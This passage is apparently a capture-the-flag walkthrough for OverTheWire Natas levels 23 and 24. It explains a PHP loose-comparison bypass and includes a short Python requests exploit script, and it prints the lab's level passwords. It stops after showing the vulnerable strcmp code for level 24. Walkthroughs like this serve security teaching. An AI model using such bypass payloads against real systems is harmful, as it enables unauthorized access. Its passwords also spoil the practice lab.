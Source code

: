 URL: http://natas23.natas.labs.overthewire.org

```php
if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
        echo "<br>The credentials for the next level are:<br>";
        echo "<pre>Username: natas24 Password: <censored></pre>";
        }
else{
        echo "<br>Wrong!<br>";
    }
}
```

Quite simply, we are on the lookout for two stuff:

1. The password should contain `iloveyou`.

2. `$_REQUEST["passwd"] > 10`.

Thus, in our password, we include the stuff `iloveyou` and to bypass the relation operator, inclue a number `> 10` at the starting of the password.

```py
def exploit():
    _payload = {'passwd':'14iloveyou1234567'}
    auth_username = 'natas23'
    auth_password = 'D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE'
    response = requests.post('http://natas23.natas.labs.overthewire.org/', auth=HTTPBasicAuth(auth_username, auth_password), data=_payload)
    dissect_response(response)
```

Password: OsRmXFguozKpTZZ5X14zNO43379LZveg

# Level 24

## PHP strcmp vulnerability

URL: http://natas24.natas.labs.overthewire.org

The backend code:

```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```
